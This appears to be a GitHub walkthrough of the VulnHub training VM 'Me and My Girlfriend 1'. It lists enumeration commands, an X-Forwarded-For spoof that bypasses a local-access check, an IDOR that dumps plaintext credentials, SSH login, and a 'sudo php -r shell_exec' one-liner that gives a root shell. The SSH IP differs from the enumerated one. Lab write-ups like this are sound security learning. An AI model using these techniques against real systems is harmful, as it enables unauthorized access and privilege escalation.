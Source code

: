 # Walkthrough: [Me and My Girlfriend 1](https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/)
## Security Report: [Document link](https://github.com/christosavramis/Vunhub-Solotions/blob/master/Me%20and%20My%20Girlfriend%201/Me%20and%20my%20Girlfriend%20Security%20Report.pdf)

## Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Privilege Escelation](#privilege-escelation)

## Enumeration 
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14`
	
- VM info: `nmap -A -T4 -v 192.168.0.14`

	* <pre>
	  22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
	  80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
	  </pre>
	  
- web Server Directory: `dirb -w http://192.168.0.14`

	* <pre>
	  http://192.168.0.14/index.php
	  http://192.168.0.14/misc/process.php
	  http://192.168.0.14/config/config.php
	  http://192.168.0.14/heyhoo.txt
	  </pre>

## Penetration
- *index.php* requires local machine access
- Header capture/info with **Fiddler**
- Customize header with a browser extension(simply add `X-Forwarded-For: 0.0.0.0`)
- Local access granted 
- Register page: http://192.168.0.14/index.php?page=register
- Login page: http://192.168.0.14/index.php?page=login
- Profile page: http://192.168.0.14/index.php?page=profile&user_id=13
- `form action="#"` -> POSTS data on index.php?page=profile
- *user_id* allows to get all the name,uname,pass values 
- uname:pass list 
	* <pre>
	  1.eweuhtandingan:skuyatuh
	  2.aingmaung:qwerty!!!
	  3.sundatea:indONEsia
	  4.sedihaingmah:cedihhihihi
	  5.alice:4lic3  <--------------- Alice's credentials
	  6.abdikasepak:dorrrrr
	  </pre>
- `ssh 192.168.1.13 -l alice`
- Login in and capture **first flag**
		  
## Privilege Escelation
- `sudo -l`
	* Alice has root access on /usr/bin/php
- `sudo php -r 'shell_exec("sudo /bin/bash -i 1>&0");'`
- Root access granted
- `cd /root && cat flag*` and capture the **second flag**





